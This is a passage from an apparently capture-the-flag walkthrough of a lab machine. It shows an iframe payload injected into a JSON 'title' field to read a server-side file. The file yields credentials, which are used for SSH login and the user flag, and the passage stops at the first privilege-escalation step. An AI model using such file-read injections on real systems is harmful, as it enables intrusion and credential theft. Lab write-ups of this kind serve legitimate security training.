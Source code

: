 ```
![stk-13](https://user-images.githubusercontent.com/87711310/216814747-4debfb86-9da2-4f57-a879-ecabca4f2f39.png)


Now that I was able to read files on the local server, i decided to look at the `index.js` file which resides at `/var/www/dev/index.js`

Since the 
```
"title":"<iframe src=file:///var/www/dev/index.js height=800px width=800px></iframe>",
```

![stk-14](https://user-images.githubusercontent.com/87711310/216814767-79783ce8-6a0e-48fd-b6e7-091515c2e2f4.png)


I looked at the receipt generated and found a password (I guess). Now that I have a username `angoose` and a password `IHeardPassphrasesArePrettySecure`, i wanted to check if I was able to login to SSH usign these credentials.

```
┌──(darshan㉿kali)-[~]
└─$ ssh angoose@10.10.11.196
The authenticity of host '10.10.11.196 (10.10.11.196)' can't be established.
ED25519 key fingerprint is SHA256:jqYjSiavS/WjCMCrDzjEo7AcpCFS07X3OLtbGHo/7LQ.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.196' (ED25519) to the list of known hosts.
angoose@10.10.11.196's password: 

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

angoose@stocker:~$ pwd
/home/angoose
```

And I was able to login!!

Grabbing the user flag.

```
angoose@stocker:~$ pwd
/home/angoose
angoose@stocker:~$ ls
user.txt
angoose@stocker:~$ cat user.txt 
[REDACTED]
```

## Privilege Escalation
I ran `sudo -l` to look at the files/services that I can run as `root`

```
angoose@stocker:~$ sudo -l
[sudo] password for angoose: 
Sorry, try again.
[sudo] password for angoose: 
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
